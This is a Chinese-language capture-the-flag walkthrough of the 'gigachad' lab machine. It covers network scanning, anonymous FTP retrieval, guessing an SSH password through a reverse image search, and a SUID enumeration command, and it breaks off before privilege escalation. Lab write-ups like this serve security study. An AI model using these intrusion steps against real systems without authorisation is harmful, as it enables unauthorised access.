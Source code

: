 |   |   |   |
|---|---|---|
|gigachad|easy|ftp利用、google反图搜索、 suid提权、s-nail 提权|

# 主机发现
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo netdiscover -i eth0 -r 192.168.44.138/24
```

# 服务探测
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ sudo nmap -sV -A -T 4 -p- 192.168.44.138 

|_/kingchad.html

```
开放了21，22，80
访问http://192.168.44.138//kingchad.html是一张带字的图，翻译
```c
HELL0? IS IT MI5 OR MI6?
他是谁？是军情五处还是军情六处？

WHATEVER, SOMEONE IS TRYINGTO HACK US
不管怎么说，有人想黑我们

```

# 目录扫描
```css
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ gobuster dir -u http://192.168.44.138/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,png -e

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ffuf -u http://192.168.44.138/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -mc 200

```
很奇怪，扫描到什么就会出现什么，访问都是同一堆字符

访问首页，右键检查源码，解码后没啥用
```c
A7F9B77C16A3AA80DAA4E378659226F628326A95
D82D10564866FD9B201941BCC6C94022196F8EE8 
[md5在线解密破解,md5解密加密](https://www.cmd5.com/)
fuck you
VIRGIN
```
通过匿名访问获取ftp 权限，里面有一个压缩包
密码：anonymous
get出来，解压出来，得到用户名chad
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ftp 192.168.44.138 //anonymous

get chadino
unzip chadino
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ cat chadinfo 
why yes,
#######################
username is chad
???????????????????????
password?
!!!!!!!!!!!!!!!!!!!!!!!
go to /drippinchad.png

```
访问http://192.168.44.138/drippinchad.png下载图片
```c
WHY YES, THIS IS MY EAVORITE PLACE TO RELAX

HOW AOULD YOU TELL?
翻译
为什么是的，这是我最喜欢放松的地方

你怎么知道？
```
猜测应该是找这个地方
google搜图，谷歌上找到了这个地方叫maidens tower(处女塔)尝试使用这个地方名作为密码登录ssh 居然真成功了。
密码：maidenstower
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ssh chad@192.168.44.138 //maidenstower
chad@gigachad:~$ ls
ftp  user.txt
chad@gigachad:~$ cat user.txt
0FAD8F4B099A26E004376EAB42B6A56A
```

# 提权
[suid提权全解（超细）-CSDN博客](https://blog.csdn.net/qq_51524329/article/details/121865922)
[浅谈linux suid提权 - 先知社区](https://xz.aliyun.com/t/12535?time__1311=mqmhD50KBKDK50Hq4%2BOrxuDAhIYwpPjex)

```c
find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null
```